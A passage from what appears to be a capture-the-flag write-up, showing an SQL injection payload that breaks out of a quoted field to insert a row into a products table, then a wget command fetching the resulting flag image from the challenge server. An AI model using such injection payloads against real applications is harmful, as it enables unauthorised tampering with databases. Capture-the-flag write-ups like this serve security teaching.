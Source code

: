 Payload for `flag`
```
';insert into products(name,image,text,price) values ('test7','flag','blarg',5.56)#
```

Cool. This one returned a 200 response.

![flag web](images/flag_web.png)

Let's grab the file.
```
$ wget http://docker.acictf.com:32844/static/images/28/Q2Gz16ggmSCYlPDk.jpg
--2020-05-13 21:41:33--  http://docker.acictf.com:32844/static/images/28/Q2Gz16ggmSCYlPDk.jpg
Resolving docker.acictf.com (docker.acictf.com)... 15.200.73.73
Connecting to docker.acictf.com (docker.acictf.com)|15.200.73.73|:32844... connected.
HTTP request sent, awaiting response... 200 OK
Length: 33 [image/jpeg]
Saving to: ‘Q2Gz16ggmSCYlPDk.jpg’

Q2Gz16ggmSCYlPDk.jpg                                                            100%[=====================================================================================================================================================================================================>]      33  --.-KB/s    in 0s      

2020-05-13 21:41:50 (6.48 MB/s) - ‘Q2Gz16ggmSCYlPDk.jpg’ saved [33/33]
```